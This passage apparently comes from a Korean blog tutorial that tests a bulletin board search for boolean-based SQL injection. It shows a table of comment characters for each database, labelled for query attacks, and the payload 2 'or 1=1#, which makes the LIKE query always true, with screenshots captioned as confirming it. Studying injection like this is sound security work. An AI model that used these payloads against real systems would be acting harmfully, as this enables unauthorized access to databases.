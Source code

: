 <figure>
<img src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FnZapi%2FbtrdIUgmVE2%2FfkKFHR0HCd892bXtCJGKyK%2Fimg.png
" alt="Weather API Web Sites - Main">
<figcaption>Fig 3. 게시판 - 검색 (2/3)</figcaption>
</figure>

<figure>
<img src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FcxfDqV%2FbtrdJ4v5chs%2FxECzsjawEDzK2EWitiJle0%2Fimg.png
" alt="Weather API Web Sites - Main">
<figcaption>Fig 4. 게시판 - 쿼리로그 (3/3)</figcaption>
</figure>

<figure>
<div class="overflow-table" markdown="block">

|      종류                | 주석                               |
| :---------------------- | :--------------------------------- |
| `MySQL` | `#` |
| `MSSQL, Oracle, Sabase ASE, DB2`           | `--`               |
| `MariaDB`           | `--, #`       |
| `Sybase IQ`           | `--, //, %`       

</div>
<figcaption>쿼리 공격을 위한 주석 테이블</figcaption>
</figure>

```sql
$ select * from board where title like '%2 'or 1=1#%' order by idx desc
$ 2 'or 1=1#
```
<figcaption>Boolean Based Sql - 취약점 확인</figcaption>

전 위의 주석 및 취약점 확인 방식을 이용하여 `쿼리 공격` 구문이 항상 참이 되게 하여 공격이 먹히는지 확인해보도록 하겠습니다.

<figure>
<img src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FW4D69%2FbtrdPJqu6pN%2FKdIpyMCE0SpiE9yKYpU3u0%2Fimg.png
" alt="Weather API Web Sites - Main">
<figcaption>Fig 5. 게시판 공격 확인 (1/3)</figcaption>
</figure>
_________________________________________________
<figure>
<img src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2Fo2i2K%2FbtrdMKqrgVx%2F6VyJYyFf8oKD3g4J3A7IBK%2Fimg.png
" alt="Weather API Web Sites - Main">
<figcaption>Fig 5. 게시판 공격 확인 (2/3)</figcaption>
</figure>

<figure>
<img src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FbnIjvs%2FbtrdJjUFuoJ%2FVDwqlSqNRLYwqzaIhZIFvK%2Fimg.png
" alt="Weather API Web Sites - Main">
<figcaption>Fig 6. 게시판 -공격 확인 (3/3)</figcaption>
</figure>
